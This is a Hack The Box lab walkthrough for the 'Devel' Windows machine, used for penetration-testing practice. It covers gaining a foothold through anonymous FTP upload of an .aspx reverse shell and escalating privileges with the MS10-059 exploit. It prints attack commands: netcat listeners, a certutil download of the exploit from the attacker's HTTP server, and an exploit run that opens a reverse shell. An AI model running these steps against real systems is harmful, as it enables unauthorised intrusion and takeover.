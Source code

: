 # Devel [HTB](https://app.hackthebox.com/machines/Devel). 
![devel-01]()


## Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.129.141.58 -oN nmap.result`


![nmap-res-02]()


We have got:

+ FTP server with anonymous logins on port 21.
+ An IIS web server on port 80.

Lets start by connecting to the FTP and see if we can write files, or find anything interesting. 


### FTP 

Lets login: 

![ftp-login-03]()


This is the root of the web server, `iisstart.htm` is the html for the site.
The `welcome.png` is what we see if we open the site: 

![site-04]()


If we can upload files to the FTP, we might be able to access them from the URL.
Lets see if we can write to the FTP: 

![ftp-put-05]()


We can. Next logical step is to upload a reverse shell and run it from the URL.
Since this is a Microsoft IIS server we should use an `.aspx` reverse shell. 

`.aspx` are webpages generated by the ASP.NET framework running on Microsoft web servers. 
When we access a `.aspx` file via the URL, it should render out the webpage, 
(A.K.A executing the file...)


I found a great `.aspx` reverse shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Make sure to update your IP and port: 

![aspx-sock-05]()


Lets upload it via the FTP: 

![aspx-upload-06]()


Setup the listener with `nc -lnvp 9001`


And navigate to the file via the browser at `http://10.129.141.111/rshell.aspx` : 

![browse-07]()


It stalls, great sign, lets check the listener: 

![shell-08]()


We get a shell! Lets move to privilege escalation. 


## Privilege Escalation

In order to run winpeas we need a .NET version of 4.5.2 or higher, which we dont have:
`reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"`

![net-ver-09]()


So we cant run winpeas, how about PoweUp?, for that we need a powershell session. 
Trying to load a powershell session stalls indefinitely:

![ps-stall-10]()


So we cant run winpeas and we cant run powershell. lets try running [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 
(make sure you install xlrd with `pip2 install xlrd==1.2.0`)

First we need to save the output of `systeminfo` from the target to a file on our attack machine. 
then we can run the exploit-suggester as such: 

`./windows-exploit-suggester.py --database 2023-07-18-mssb.xls --systeminfo systeminfo.txt`


![sugg-res-11]()


Iv'e highlighted `ms10-059`, this vulnerability lays in the `Tracing for Services` feature on
Windows systems. This happens because the feature incorrectly places ACL's on registry keys,
which allows attackers to execute code with elevated privileges. As well unsafe memory allocation when processing craftred long strings.    

You can find the exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) save the `MS10-059.exe` file to your attack machine.


Lets transfer the exploit to our target machine. 
open an http server locally with `python3 -m http.server 8888`.

`cd` into a writable directory `cd c:\\windows\\temp` and download the exploit from the target
with `certutil -urlcache -f http://10.10.14.21:8888/MS10-059.exe ms.exe`

![transfer-12]()


Start up the listener on the attack machine with `nc -lnvp 443`.

And run the exploit with `ms.exe 10.10.14.21 443`

![run-exploit-13]()


Lets check the listener: 

![root-14]()


We got system! 

